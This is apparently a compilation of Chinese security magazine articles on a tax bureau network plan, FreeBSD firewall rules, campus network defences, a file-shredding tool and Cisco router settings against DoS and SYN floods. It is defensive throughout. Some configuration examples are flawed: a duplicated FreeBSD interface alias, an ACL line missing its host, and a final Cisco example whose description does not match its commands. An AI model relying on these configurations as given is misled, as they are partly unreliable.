- **（1）“纳税人－国税局－银行”网络**：由于纳税人的计算机是通过电话拨号直接或间接实现与国税外联网络连接的，因此，网络面临的威胁人群有两部分：一部分来自具有使用网络缴税权限的合法用户，他们的攻击类型主要是数据型攻击；另一部分是通过电话拨号直接或间接地非法接入国税外联网络的攻击者，他们的攻击既有数据型攻击，又有系统型攻击。
- **（2）国税网站**：网站所面临的威胁与其他政府部门的网站一样，它面临着因特网上所有不好、不安分用户群的威胁。

#### 技术手段

网络安全是相对的，安全的程度与付出的代价是密切相连的，除资金之外，相关安全措施也会影响网络性能和管理难度等，安全程度越高，这些影响越大。因此，解决安全的方案应该是平衡安全与代价的结果。

对待网络安全不同的威胁人群，应采取不同的手段，从而以较小的代价取得较好的效果。对外部攻击者，必须采取强硬有力的抗攻击手段；而对内部用户，则在适当增加其攻击难度的前提下，建立完善有效的审计机制作为威慑，其根本目的都在于防止其实施攻击。网络安全实质上是一个综合性问题，技术手段必须与有效的管理相配合，才能发挥最大的功效。

#### 网络安全解决方案

#### 1. 做好操作系统的安全工作
某省国税主要的操作系统是 UNIX，其系统有许多很好的安全特色，但它缺省的安装配置并不安全，只有经手工配置启动后才能发挥其安全方面的功能和优势。因此，在设置 UNIX 时，必须本着“安全第一”原则，对于 UNIX 的安全机制，如访问控制机制、审计机制等，要充分加以利用，通过对不同级别的用户设置精细的权限控制来对网络事件进行审计。

#### 2. 做好各种应用系统的安全工作
应用系统有两类：
- a. 金税工程；
- b. 中国税务征收系统。

以上两套系统为国税业务系统的核心应用，整个税务业务系统应用将以这两套系统为核心，因此，整个网络体系的安全也以该系统为核心。

#### 3. 在网络的出入口安装防火墙
利用防火墙状态包过滤掉来自网络中与应用无关的操作，网络安全方面的威胁自然大大减少。

#### 4. 入侵检测
解决网络应用安全仅靠传统防火墙的包过滤是不够的，还必须拥有完善的入侵检测系统。入侵检测是对防火墙的一个有力的补充，它安装在局域网的某个位置，监测着其所在以太网的整个共享网段，其基本功能是通过监测以太网上的数据包，对用户指定的网络资源情况、网络状态和网络操作进行记录，以供日后查询和审计；它的高级功能是实时分析网络上的数据包，并且根据自身所具备的丰富的入侵攻击数据库对网络违规事件跟踪、实时报警、阻断连接。它既可对付局域网络内部人员的攻击，也可对付来自其他局域网的攻击。

#### 5. 对局域网之间的通信进行加密
采用 VPN 技术对不同局域网络之间的通信进行加密，可以防止外部攻击者通过广域网络通信电路进入内部网络。

#### 解决外联网络安全的技术手段

“纳税人—国税局—银行”网络的操作影响着银行的资金流动，因此它的安全问题特别重要。这是一个由三方组成的网络，这里我们只探讨涉及纳税人、国税局及银行数据传输的安全措施。

#### 1. 电子申报系统数据安全
电子征税包括电子申报和电子结算。电子申报是指纳税人利用各自的计算机，通过电话网、Internet 网，直接将申报表和其他报送材料发送给税务局，从而实现纳税人远程申报。电子结算是指国库根据纳税人的税票信息，直接从其开户银行划拨税款的过程。电子申报解决了纳税人与税务部门间的电子信息交换，实现了申报无纸化；电子结算解决了纳税人、税务、银行及国库间电子信息及资金的交换，实现了税款收付的无纸化。电子征收系统的运作见图 1（地市局）。


其中，电子申报系统面临的主要安全性问题包括以下几个方面：信息传送者和接收者的确认；保证信息在传输过程中未经篡改；保护敏感信息的隐私权以及法律依据问题。由于申报数据的有效性和保密性直接关系到个人、企业或国家的经济利益和声誉，因此，其安全性、可靠性和法律地位是电子申报能否成功的关键。当前能较好地解决数据在传输中安全的技术首选为 VPN。

#### 2. 国税网站
国税网站是供所有人访问的，它的安全措施无法像“纳税人—国税局—银行”网络那样具体落实到访问者头上，因此应该从两个方面考虑：

- **a. 应用安全**：应用安全主要体现在网络申报的数据安全。
- **b. 主机安全**：主机安全首先要保证操作系统及提供 Web 服务的应用软件本身不存在后门，其他的工作可以交给防火墙来完成。例如：如果主机仅提供 Web 服务，则可以通过防火墙开放主机 80 端口，屏蔽其他与应用无关的端口。

#### 省国税网络结构拓扑图


### 如何使用 FreeBSD 防火墙

文 / iceblood

以前我曾经写过一篇《利用 FreeBSD 组建安全的网关》，主要讲述如何建立一个 FreeBSD 防火墙，而防火墙在很多时候主要是看如何使用。现在我们看看如何使用建立好了的 FreeBSD 防火墙保护企业，关于 FreeBSD 的防火墙建设过程请参考我上面提到的那篇文章。首先假设某企业有以下服务器和工作站：

- 1. Web 服务器两台、一台企业主页，一台做 BBS，希望 IP 地址为 xxx.xxx.xxx.001 和 xxx.xxx.xxx.002。
- 2. DNS 服务器一台，并且兼带企业 E-mail 服务，IP 地址为 xxx.xxx.xxx.003，把 www.testdomain.com 解析到 xxx.xxx.xxx.001，把 bbs.testdomain.com 解析到 xxx.xxx.xxx.002。
- 3. 企业内部局域网络，计算机 N 台，IP 地址为 10.125.0.0 到 10.125.255.255。

对于这样的一个企业，我们首先要设计好网络构架，在设计的同时，要考虑到各个服务器以及内部网络各放在什么位置，才能更有效地配合防火墙，使得防火墙对每个部分都能充分保护。

我们首先来分析一下“黑客”入侵的手段和途径。作为一个入侵者，他的第一步自然是先要找到目标企业在网络中的位置。假设他已经知道该企业没有使用主机托管服务，而是和企业的网络放在一起，那么他只须 Ping 一下该企业的主页就能了解到该企业的 IP 地址为 xxx.xxx.xxx.001 和 xxx.xxx.xxx.002。另外还有一台 DNS 服务器，使用 nslookup 这样的工具，一下就能查到目标企业的 DNS 服务器地址 xxx.xxx.xxx.003，并且他还会计划，假设已经进入以上 3 台服务器中的一台，他就会马上分析网络结构，并且进入内网，获取内部网络员工资料以及很多重要数据。从上面看得出来；要保护这个网络，我们需要做很多工作。首先我们可以想办法对服务器之间以及服务器和内部网络之间进行隔离，但又能应用到它们应该有的功能，现在对该企业的网络做如下策划：

首先确定 FreeBSD 防火墙是作为企业连接到 Internet 服务器的惟一途径，然后对 FreeBSD 进行一定的设置，开启它的 ipfirewall 以及 NATD 功能。上图告诉我们现在是把 WWW、BBS、DNS 等服务器都放在内部进行保护，所以防火墙要开启 NATD 的反向代理功能，首先我们把 xxx.xxx.xxx.001、xxx.xxx.xxx.002、xxx.xxx.xxx.003，绑定在 FreeBSD 外部网卡上，假设外部网卡号为 fxp0，在 rc.conf 里我们需要设置如下：

```conf
ifconfig_fxp0="inet xxx.xxx.xxx.001 netmask 255.255.255.0"
ifconfig_fxp0_alias0="inet xxx.xxx.xxx.002 netmask 255.255.255.0"
ifconfig_fxp0_alias1="inet xxx.xxx.xxx.003 netmask 255.255.255.0"
```

绑好之后，我们现在就开始分析了。首先我们来看内部网络，内部要上 Internet 就必须要有一个网关，并且让它们正常使用网络。假设 FreeBSD 内部网卡编号为 fxp1，那么我们还要在 rc.conf 里加入：

```conf
ifconfig_fxp1="inet 10.125.0.1 netmask 255.255.0.0"
```

然后在防火墙规则里加上：

```conf
divert 8668 ip from any to any via fxp0
```

这条规则，允许 NATD 服务。仅允许 NATD 服务还不行，还要设置内部网络能连接到 Internet，我们再加上：

```conf
allow ip from any to 10.125.0.0/16
allow ip from 10.125.0.0/16 to any
```

内部网络设置 Gateway 为 10.125.0.1，这样企业的内部网络就能正常连接到 Internet 了。

然后我们来看看 WWW 服务器。这个服务器一般来说只要开放 3 个端口就够了，第一个端口自然是 HTTP 端口；第二、第三个端口就是 FTP 端口以及 HTTP 数据端口，其中 HTTP 端口自然是让 Internet 以及企业内部访问的端口，而 FTP 端口是用来更新主页或做别的事的，并且只须企业内部人员访问就足够了。当然，有必要的话还要开 Telnet 或 SSH 端口，这是方便企业内部系统管理员远程管理的，这里我建议使用 SSH。为了防止入侵者进入，他可能要对其他机器进行攻击，我决定对 WWW 服务器进行单独分离，现在假设 FreeBSD 的内部网卡编号为 fxp1，我们编辑 rc.conf 文件，加上：

```conf
ifconfig_fxp1_alias0="inet 10.80.0.1 netmask 255.255.255.0"
```

然后，我们把 WWW 的服务器设置成 10.80 这个网段，网关为 10.80.0.1，这样就把 WWW 服务器单独划在一个特殊的区域里。假设我们设置 WWW 的 IP 为 10.80.0.80，现在我们再设置防火墙规则：

```conf
allow tcp from any to xxx.xxx.xxx.001 80 in
allow tcp from xxx.xxx.xxx.001 80 to any out
// 允许任意地方能够访问防火墙的 80 端口
allow tcp from 10.80.0.80 to any out
allow tcp from any to 10.80.0.80 80 in   // 允许任意地方访问 WWW 服务器的 80 端口
allow tcp from 10.125.0.0/16 to 10.80.0.80 21 in
allow tcp from 10.125.0.0/16 to 10.80.0.80 20 in
allow tcp from 10.80.0.80 21 to 10.125.0.0/16 out
allow tcp from 10.80.0.80 20 to 10.125.0.0/16 out
// 允许内部网络使用 FTP 服务器连接 WWW 服务器
```

设置完成防火墙规则还不行，还需要设置 NATD，我们设置 NATD 为：

```conf
redirect_port tcp 10.80.0.80:80 xxx.xxx.xxx.001:80
```

这样设置以后，WWW 服务器就可以允许企业内部人员顺利地更新主页和浏览主页了，而 Internet 却只能浏览 WWW 服务器上的主页，就算万一 WWW 服务器利用 HTTP 服务器入侵了该机器，由于该服务器的各种连接都被防火墙阻断，因而无法对企业内部网络进行入侵和破坏，达到充分保护 WWW 服务器以及内部网络的目的。

现在我们再来分析 DNS 服务器。由于 BBS 服务器和 WWW 服务器实质上都一样，这里就不讨论了。DNS 服务器自然要提供 DNS 服务，也就是 UDP 53 端口，由于同时还带 Mail 功能，所以还要开放 SMTP 端口以及 POP3 端口，而 POP3 服务器同样只允许内部企业访问，所以我们给 rc.conf 加入：

```conf
ifconfig_fxp1_alias0="inet 10.80.2.1 netmask 255.255.255.0"
```

然后给 DNS 服务器设置 IP 为 10.80.2.53，设置防火墙规则为：

```conf
allow udp from any to xxx.xxx.xxx.003 53 in
allow udp from xxx.xxx.xxx.003 53 to any out
// 允许任意地方能访问防火墙的 53 端口
allow tcp from any to xxx.xxx.xxx.003 25 in
allow tcp from xxx.xxx.xxx.003 25 to any out
// 允许任意地方能访问防火墙的 smtp 端口
allow udp from 10.80.2.53 53 to any out
allow udp from any to 10.80.2.53 53 in   // 允许任意地方访问 DNS 服务器的 53 端口
allow tcp from any to 10.80.2.53 25 in
allow tcp from 10.80.2.53 25 to any out   // 允许任意地方访问 DNS 的 SMTP 端口
allow tcp from 10.125.0.0/16 to 10.80.2.53 110 in
allow tcp from 10.80.2.53 110 to 10.125.0.0/16 out
// 允许企业内部访问 DNS 的 POP3 端口

NATD 设置为：
redirect_port udp 10.80.2.53:53 xxx.xxx.xxx.003:53
// 把 10.80.2.53 的 53 转到 xxx.xxx.xxx.003 的 53 上，使用的是 UDP。
redirect_port tcp 10.80.2.53:25 xxx.xxx.xxx.003:25
// 把 10.80.2.53 的 25 转到 xxx.xxx.xxx.003 的 25 上，使用的是 TCP。
```

按照上面的规则设置好企业网络后，企业网络保护将更加严密，服务器和服务器之间以及服务器和企业内部网络之间进行了严格控制。当然，这里没有考虑内部入侵以及内部 IP 盗用行为，这也是 FreeBSD 防火墙的局限性。不过可以添加一块网卡，把企业内部人员的网络单独用一个网卡进行隔离，达到弥补的目的。

好了，以上为使用 FreeBSD 防火墙保护企业网络的个人做法，希望能对一部分企业网管有所帮助。

---

校园网络安全的相对滞后极大地影响了学校网络的发展。本文为校园网络安全提供了一个综合解决的方案和思路。

### 校园网上网络安全技术的应用

文 / Phoenix

在现今社会，随着网络的普及和发展，越来越多的内部网和校园网都接入了 Internet，校园网络作为学校重要的基础设施，担当着学校教学、科研、管理和对外交流等许多角色，校园网安全状况直接影响着学校的教学活动。在校园网络建成的初期，校园网的安全问题可能还不突出，随着技术应用的深入，校园网上各种数据会急剧增加，各种各样的安全问题开始困扰网络管理人员，不可忽视的安全问题也随之摆在我们面前。如何保证校园网不被攻击和破坏，已经成为学校需要解决的重大问题，也是校园网管理的重要任务。

### 一、网络安全技术的表现形式及其应用

#### 1. 网络安全技术的表现形式

网络安全技术发展到今天，其发展所表现的形式也是多种多样的，如快速传播和扩散包括病毒在内的各种有害信息，一些信息设备厂商在商用硬件或软件中的 Bug，给网络与信息安全留下隐患，Hacker 们别有用心者有计划地攻击并窃取政治、经济、国防、商业机密，敌对势力对国防、通信、电力、金融、交通等关键性网络发动摧毁性攻击以及实施伪造、篡改、拒绝服务攻击、行为否认、非授权访问等。另外，我们的安全意识不强、安全技术落后也都造成安全隐患。网络安全技术的几个大问题不容忽视。

- **(1) 数据的安全**：主要是保证重要的数据和信息在传输过程中不丢失、不被修改、不被窃取，以防止 Hacker 们利用。
- **(2) 不良信息过滤**：在接入 Internet 后，有关色情、暴力、邪教内容的网站泛滥。这些有毒的信息违反人类的道德标准和有关法律法规，我们应阻止该类信息在网络中传播。
- **(3) 结构上的安全**：结构安全是网络安全中很重要的一部分，我们在设计和保障网络规划合理性后，要随着使用过程中出现的问题不断调整和改进，保证网络有较好的弹性和服务质量。
- **(4) 非法访问的安全**：我们要拒绝来自外部和内部的非法访问，保护网络不被非法修改和恶意攻击。
- **(5) 病毒危害的安全**：通过网络传播的病毒无论是在传播速度、破坏性和传播范围等方面都是单机病毒所不能比拟的，特别是在 Internet 上。因此，我们要防止病毒的入侵和传播。
- **(6) 盗取口令和入侵的安全**：为了管理上的方便，密码是用户根据自己的应用范围、分配的权限设定的。当有人用不正常的手段窃取别人的口令，就会造成混乱。

注：网络的安全问题也有自己的特点，以上的表现形式只是从不同角度对网络安全作出说明，实际上它们是有交叉点的。

#### 2. 网络安全技术的应用

经过多年的发展，网络安全技术现在已经有很多种比较成熟。主要的应用，即较成熟的技术是：

- 1. 网络入侵检测 (IDS) 技术；
- 2. 包过滤路由技术；
- 3. 防火墙技术；
- 4. 病毒防范技术；
- 5. 数据备份及恢复技术；
- 6. VPN 技术。

注：网络技术应用针对不同的方面，我们将各技术综合使用，以加强网络的安全。

### 二、校园网中的安全技术应用

校园网具有访问方式多样、用户群庞大、网络行为突发性较高等特点。网络的安全问题需要从网络规划设计阶段就仔细考虑，并在实际运行中严格管理。为保证校园网络的安全性，我们在校园网中运用过滤器和防火墙、虚拟局域网 (VLAN)、虚拟专用网 (VPN) 等技术。

#### 1. 过滤器和防火墙技术的应用

过滤器技术可以屏蔽不良的网站，对网上色情、暴力和邪教等内容有强大的堵截功能。防火墙技术包含了动态的封包过滤、应用代理服务、用户认证、网络地址转换、IP 防假冒、预警模块、日志及计费分析等功能，可以有效地将内部网与外部网隔离开来，保护校园网络不受未经授权的第三方侵入。防火墙是非常有效的网络安全模型，它防止来自 Internet 的危险传播到内部网络，它主要实现：

- 1. 限定人们从一个特别控制的点进入；
- 2. 防止侵袭者接近你的其他防御措施；
- 3. 限定人们从一个控制的点离开。

它常常被安置在受保护的内部网络连接到 Internet 的点上，将内部网络与 Internet 隔离开。所有来自 Internet 的传输信息或从内部网络发出的传输信息都要穿过防火墙，因此，防火墙可以分析这些传输信息，通过检查、筛选、过滤和屏蔽信息流中的有害服务，防止对计算机系统进行蓄意破坏，以确保它们符合节点设定的安全策略。

- **(1) 包过滤防火墙**：安装于路由器上，对数据包进行检查。优点是简单、方便、速度快；缺点是缺乏日志、审计信息和用户认证机制。
- **(2) 代理服务器防火墙**：是在主机上运行代理服务，可对特定的应用层进行服务，其核心是运行于防火墙主机上的服务器进程。
- **(3) 混合型防火墙**：是把代理和包过滤等功能结合在一起，形成新的防火墙。所用主机称为堡垒主机，负责代理服务。
- **(4) 电路层网关**：在网络的传输层上实施访问策略，是在内、外网络主机之间建立一个虚拟电路进行通信，相当于在防火墙上直接开了个口子进行传输。缺点是不像应用层防火墙那样能严密控制应用层的信息。
- **(5) 应用级网关**：应用级网关使用专用软件转发和过滤特定的应用服务。如 TELNET、FTP 服务，这是一种代理服务，适合于应用层，有一个高层的应用网关做代理器，通常有专门的硬件来完成。
- **(6) 自适应代理技术**：是最新的防火墙技术，在一定程度上反映了防火墙目前的发展动态。该技术可以根据用户定义的策略，动态适应传送过程中的分组流量。如果安全要求较高，则安全检查应在应用层完成，以保证代理防火墙的最大安全性。一旦代理明确了会话的所有细节，其后的数据包就可以直接经速度快得多的网络层传送。该技术兼备了代理技术的安全性和其他技术的高效率。在校园中，我们可以从防火墙技术实现动态包过滤、内核透明代理，用户强认证机制；加密技术，智能日志、审计跟踪和实时报警，内容和策略感知能力和内部信息隐藏技术。

#### 2. 虚拟局域网 (VLAN) 技术的应用

虚拟局域网 (Virtual LAN) 是与具体的物理网络及地理位置无关的 LAN，在逻辑上等价于 OSI 第二层的广播域。每一个 VLAN 都是一个广播域，通过 VLAN 划分，可以将一个大的广播网段分成多个小的广播域。VLAN 的实质就是广播域控制，它可以不拘泥于机器在网络中的物理位置来划分广播域，允许按照工作站或网段的逻辑归属构成广播域。划分后，原来的较大的 LAN 就从逻辑上形成了多个小的虚拟的 LAN。VLAN 构建方法如下：

- **(1) 基于端口**：允许跨越多个交换机的多个端口划分，不同交换机的不同端口可以组成 VLAN。
- **(2) 基于 MAC 地址**：由于和 MAC 地址相关，用户的机器可以在 VLAN 范围内不同物理地域自由移动。
- **(3) 基于 IP 地址**：类似于前一种，用户的机器可以在 VLAN 范围内不同物理地域自由移动而不用重新配置。
- **(4) 基于 IP 多播组**：指以动态建立的多点广播确定 VLAN，每一站点通过对标示不同 VLAN 的广播信息的确认来决定是否加入某一 VLAN。它代表一组 IP 地址。VLAN 由作为代理的设备对 VLAN 进行管理，提供服务。当 IP 多播组要送达多个站点时，就动态建立 VLAN 代理，这个代理与多个 IP 共同组成 this VLAN，它提供了很高的动态性能，每个成员只是特定时间内特定 IP 多播组的成员，并且 IP 多播组可跨越路由器形成 WAN 连接。IP 多点广播组定义的 VLAN 具有灵活性和面向应用的特点，可以跨越路由在 WAN 上实现，缺点是 VLAN 的安全性降低。
- **(5) 基于管理策略**：这是一种灵活性最好的组成 VLAN 的方法，在网络管理中制定某种策略，使用这种策略向 VLAN 分配端点设备，能够实现多种分配方法，还可以根据需要灵活选择合适的方法，分为基于协议的 VLAN 和基于子网的 VLAN。

在校园网中使用 VLAN 容易对 IP 网络进行改动，能够阻止广播风暴，提供额外的安全性。但是，由于只能够在 VLAN 内广播，不同 VLAN 互相干扰，因此，如果将同一部门划分在一个 VLAN 内，局域网的广播信息不会泄露；如果不同 VLAN 互相通信，必须通过路由。

#### 3. 虚拟专用网 (VPN) 的应用

虚拟专用网 (VPN) 可以是 VLAN 和远程工作站的集成体，是一个优秀的 Extranet 解决方案，应用隧道技术，通过 ISP、NSP 建立专用隧道，规程点到点连接。它的基本原理就是：第一、采用“隧道”技术在公用网络中形成企业的专用链路；第二、是虚拟的网，没有固定的物理连接，网络只有在需要时才建立。通俗一点说，就是通过加密的 IP 隧道，实现私有包、其他网络协议包在 Internet 上的传输，从而实现位于 WAN 上的不同 LAN 各种协议的虚拟连接，将公众网可靠的性能、丰富的功能与专用网的灵活、高效结合在一起，是介于公众网与专用网之间的一种网。它具有成本低、便于管理、开销小、灵活度高、保密性好的优点。创建 VPN 须使用如下技术：

- 1. 隧道技术；
- 2. 加解密技术；
- 3. 密钥管理技术；
- 4. 使用者与设备身份认证技术。

根据隧道协议不同，可将 VPN 分成第二层和第三层的 VPN。第二层隧道协议的工作方式是先把各种协议数据装入 PPP 协议包中，再装入隧道协议中。这种封装形成的协议靠第二层传输。

#### 4. 杀毒软件的应用

选择合适的网络杀毒软件可以有效地防止病毒在校园网上传播。它应具有以下一些特征：

- 1. 能够支持所有的主流平台，并实现软件安装、升级、配置的中央管理；
- 2. 要能保护校园网所有可能的病毒入口，也就是说要支持所有可能用到的 Internet 协议及邮件系统，能适应并且及时跟上瞬息万变的 Internet 时代步伐；
- 3. 具有较强的防护功能，可以对数据、程序提供有效的保护。

以上我们介绍的技术应用于网络安全的不同方面。VLAN 侧重于网络的结构安全和网络的服务质量 (QOS)，它能增加网络的安全性，能够依照某种安全策略，把一些重要的成员（如数据库、学校办公服务器等）划到相应的 VLAN 中，使网络的相关部分得到保护；网管人员能够以较高的精确度来确定访问网络服务的途径；在交换到桌面的结构中可以形成特别有效的限制非授权访问的屏障。但是 VLAN 本身的安全只侧重于网络结构和服业务质量，对数据安全则相对防火墙和 VPN 要弱得多。只有把 VLAN 同其他安全技术（如访问控制）结合起来，才能形成比较好的安全策略。防火墙则在内网和外网之间建立一个过滤检测系统，可以强化网络安全策略，隐藏内网结构，防止内部网络信息外泄，能够通过跟踪、日志等提供比较详细的网络状况的信息。但是防火墙是被动的，不能确保收到的数据包来自正确的发送者和是否被人看过，原始数据是否被更改。对于来源于内部的攻击防范相对较弱，也无法防范人员蓄意破坏；不能防范数据驱动式的攻击。因此，从网络安全考虑，对重要的数据应该采用加密后传输或采用 VPN 方式。VPN 则应用于安全性要求高的方面，如金融、财务等方面。通过隧道技术和加密技术能够保证数据达到较高的安全级别，既适合处于 WAN 中的企业，也适合于校园网。VPN 则相对来说安全性更高一些，数据的重新包装和加密都是自动进行的，而且适应面更广一些。可以用于 WAN 中的防火墙则应用极为广泛，且种类繁多。为了保护内部网络，防火墙是网络安全的首选产品。由于其处于内、外网之间，可以较好地防止外部攻击。其配置方法很多。

**结语：** 在校园中，网络安全技术是网络安全管理的重要内容。合理的网络配置能够增强网络安全。可以预见到加密技术和 VLAN、VPN、防火墙的合理配置使用，必将使校园网络得到很好的保护。当然，还要对校园用户宣传教育，因为毕竟他们是主要的用户群体，相对来说，他们破坏性更大。对用户进行有关网络安全的法律法规和规章制度的宣传教育是非常有必要的。

### 计算机文件的粉碎机
文／吴征

一份重要的文件资料，仅在电脑上删除还不够。正如机关中机密文件的销毁，仅靠简单丢弃是相当危险的！按照我国有关保密规定，在丢弃文件前，首先要用文件粉碎机将重要而机密文件粉碎成纸屑。电脑的文件资料也应该这样，仅仅把它放进回收站，或只从回收站把它删除是非常不安全的，一般删除了的文件都可用一些恢复工具找回来，这对那些重要而机密文件来说特别危险。文件粉碎工具 File Shredder 正是为满足这种安全需要而开发的，在文档资料被删除前，先将其中的内容粉碎（用随机产生的代码多次覆盖文件中的数据）后再删除，就能保证文件删除的干净彻底。还可用 NSA 认证过的文件删除算法来删除你的文件，处理后，即使用很专业的文件恢复工具也不能恢复，其图标就是一台传统的文件粉碎机，看着非常形象。

打开 File Shredder 软件的主窗口，有 5 个功能卡页签，分别是选项、帮助、切碎、版本和注册，其中选项功能可对其做各种设置。

“将 File Shredder 添加至发送到菜单（A）”（Add File Shredder to the Send To Menu）功能选定后，在系统的 Windows\Sendto 目录下创建鼠标右键“发送至 File Shredder”快捷方式，支持鼠标的右键操作。“使用 NSA 的删除文件算法”，在删除前用 NSA 删除算法对你的原始文件做七次覆盖，可防止任何文件恢复工具对其恢复。

“要求确认所有文件粉碎请求”功能。在粉碎文件前弹出一个确认对话框，以防止误操作。“将所有操作记录至一个磁盘文件”功能选定后，File Shredder 所有的文件粉碎删除操作均记录至 shredder.log 文件内，以备事后查询。

粉碎删除文件有两种方式。打开 File Shredder 软件的工作窗口，选“切碎”功能页签，用资源管理器选定那些要删除的文件夹或者文件，将其拖拽至 File Shredder “切碎”的工作窗口，在该窗口下有两个按钮“从列表内删除文件”和“粉碎列表中的全部文件”，它们的功能从它们名称上已说的很清楚了，不用再解释了。

File Shredder 软件的另一种用法是，在设置中选择“将 File Shredder 添加至发送到菜单（A）”（Add File Shredder to the Send To Menu）功能，在资源管理器中选定要删除的文件夹或者文件，点鼠标右键，在弹出的菜单内选择“发送到”，“File Shredder”会自动打开，粉碎删除您选定的文件夹或文件，使用时可以把“发送到”菜单的快捷方式名称“File Shredder”改成“文件粉碎机”，这样用起来就更方便了。

### 用 Cisco 边界路由器防护 DoS 攻击
文/hardi

DoS 攻击是最普通的一种攻击行为，网上很多朋友问我怎么预防 DoS 攻击，我想最简单的答案就是配置 Cisco 边界路由器。

说到 Cisco 边界路由器，比较陌生吧。我们先看看 Cisco 的边界网络安全系统。边界安全是通过智能地运用网络技术来保护网络边缘的安全。说的简单点就是在公司内部网络和 Internet 之间提供一道安全保护线。而边界安全通常是用一个边界路由器在安全的内部网络和不安全的 Internet 之间建立一个分界点。边界路由器一般来说是一个 Cisco 1720 那样的路由器，因为它带有一个 Internet 的串口和一个连接以太网的接口，所以 Cisco 边界路由器可以作为抵御 DoS 攻击的第一道防线，通过一定的合理配置，可以防止黑客利用我们的网络来作为 DDoS 攻击的源头来攻击其他人。

第一，为了不使我们的网络成为 DDoS 攻击的参与者，我们必须确保堡垒主机没有被入侵而且没有被植入 DDoS 软件，还要关闭一切不必要的 IP 服务。在所有的路由器接口上使用：`no ip directed-broadcast`，目的是显而易见，是为了防止边界路由器成为 DDoS 攻击的广播放大器。

第二，采用访问控制列表对所有的进入流量进行过滤，过滤掉源地址为私有和保留地址的数据包。

第三，过滤掉所有的外出流量，以防止源 IP 地址欺骗的产生。但是我们要让停火区（公司内部网络和外部网络之间的缓冲区，是唯一对外部网络可见的网络）地址或其他允许地址的数据包流出边界路由器。我们可以用：`ip verify unicast reverse-path` 命令来过滤外出流量。

第四，我们采用的是 Committed Access Rate (承诺访问速率) 来对 ICMP 数据风暴进行限制，但是要注意，限制操作的最低要求是运行 Cisco IOS 11.1CC。例如，我们可以在边界路由器的输入接口上进行流量限制。第一步，我们利用访问控制列表对数据包进行分类，定义出 ICMP 数据流；第二步，利用 CAR 有选择的将数据流量限制在一定的带宽之内，如果超过了限制好的带宽，则执行策略，对数据包进行丢包处理。我们可以用：`rate-limit` 命令配置 CAR。还要注意的是，我们在配置 CAR 前要打开接口 CEF 功能，即 Cisco 特快转发功能。看一个例子吧：

```text
interface serial 1
rate-limit output access-group 105 2048000 1024000 1536000 conform-action transmit exceed-action drop
access-list 105 permit icmp any any echo-reply
```

上面的例子是为边界路由器的串口 1 定义的，访问控制列表 105 将要做 CAR 限制的数据流定义为 ICMP ECHO-REPLY，它限定了平均传输速率是 2048kbps，正常的突发数据量是 1024K 字节，最大突发数据量为 1536K 字节。如果超过这个速率限制，就开始丢包。

第五：对 SYN 包进行过滤。我们可以利用 `show interfaces rate-limit` 命令测试出正常状态的 SYN 流量。这个命令可以显示接口上符合和超出的速率，利用这个数据，我们就可以建立接口上正常的流量速率。

下面就具体配置一个边界路由器对 Web 流量的限制实例（和上个例子原理差不多）：

```text
interface serial 1
rate-limit output access-group 150 2048000 1024000 1536000 conform-action transmit exceed-action drop
access-list 150 permit tcp any host eq www
access-list 150 permit tcp any host eq www established
```

第六，启用边界路由器的日志功能，以便我们找到 DDoS 攻击的凶手。

下面我们看些具体的东西吧。SYN 攻击大家都很熟悉了吧，它的危害性很大，但是我们可以用 Cisco IOS 软件的 TCP 连接功能来实现对 SYN 风暴的防御。我们在边界路由器上采用 TCP 拦截，可以让防火区或者其他主机少受到或者避免受到 SYN 攻击。TCP 的拦截对从 TCP 客户机发往 TCP 服务器的 TCP 连接请求进行跟踪，并可以进行拦截和验证。通过拦截和验证这些请求，可以帮助我们防止 SYN 风暴攻击。而我们的 TCP 拦截有两种模式，一是拦截模式（默认模式），其次是监控模式。

在连接模式下，TCP 拦截软件对与扩展访问控制列表相匹配的由客户机到服务器的 TCP 同步（SYN）包进行拦截。在客户机连接到服务器之前，由 TCP 拦截来应答客户机向目标服务器的请求，并对连接进行验证。如果客户机的请求是合法的，TCP 拦截将替客户机建立与目标服务器的连接，并且将这两个连接结合到一起，从而组成一个源地址和一个目的地址的数据流。在这整个持续阶段， TCP 拦截将继续对数据包进行拦截、验证和转发。

再看监控模式。TCP 拦截软件被动的监视流过该路由器的连接请求，其中，如果一个连接在规定的时间内没有能够建立，那么该软件将介入并且终止这个连接，所以看上去这种监控模式更加智能化。

如果真的发生了 SYN 风暴攻击，即半开放连接的数目超过了规定好的门限值（这个门限值是可以由我们来配置），我们的 TCP 拦截就会开始运行（Running）。在这种 Running 模式下，连接门限值将会被降低，超过门限值的半开放连接将被复位，但是还是允许有效的连接。有了这种功能，我们就不用怕 SYN 攻击所带来的后果了。

值得注意的是：在我们使用 TCP 拦截的时候，在进行 3 次握手的通信中，协商的 TCP 选项不再被协商，因为 TCP 拦截软件不知道服务器需要协商什么；还有，一般来说，TCP 拦截连接在路由器中都是被以快速交换的模式转发的。

策略问题是个大问题，而在我们采用 TCP 拦截来防御 SYN 攻击时是特别重要的，我们可以选择拦截所有的请求或只对那些来自特定网络或发往特定网络的请求进行拦截，还可以自己配置连接速率和门限值。从我个人的观点来看，最好是拦截所有的连接请求，因为现在 SYN 风暴攻击技术已经发展到相当高的层次，不可能从一个网络地址对目标主机发动攻击，所以还是小心为妙。下面我们就来具体看看如何配置 TCP 拦截：

- 1. 第一，要定义一个 IP 扩展访问控制列表，我们可以用命令：`access-list access-list-number {deny | permit} tcp any destination destination-wildcard` 实现。注意：`destination` 参数一定要指明。
- 2. 第二，需要启用 TCP 拦截，命令用的是：`ip tcp intercept list access-list-number`
- 3. 第三，也是最关键的一步，我们在这里设置拦截模式，命令为：`ip tcp intercept mode {intercept|watch}`
- 4. 第四，通过显示不完全的连接和已经建立的连接来验证 TCP 拦截，与之相应的命令是：`show tcp intercept connection`，这步是用来判断连接是否为 SYN 攻击。
- 5. 第五，用来显示拦截的统计信息，命令是：`show tcp intercept statistics`。
- 6. 第六，通过输入相关的命令来执行一些可以选择的任务，用于调整 TCP 的连接值：（1）是设置 TCP 拦截丢包模式；（2）用于改变 TCP 拦截定时器；（3）是改变 TCP 拦截进入 Running 状态的门限。

是不是很简单呢？其实如果你掌握了一些基本的 Cisco IOS 的命令，实现这些功能不是很难的。最后我们看个例子吧：

```text
interface serial 1
ip access-group 102 in
access-list 102 deny ip 10.0.0.0 0.255.255.255 any
access-list 102 deny ip 192.168.0.0 0.0.255.255 any
access-list 102 deny ip 172.16.0.0 0.15.255.255 any
access-list 102 permit ip any any
```

在这些命令中，我们定义了 IP 访问控制列表 102，使得 IOS 软件为基于网 192.168.1.0/24 上所有的 TCP 服务器进行数据包拦截，而且实现了对私有 IP 地址的阻隔！

## 你的 Cisco 可以阻止 “红色代码” 吗？
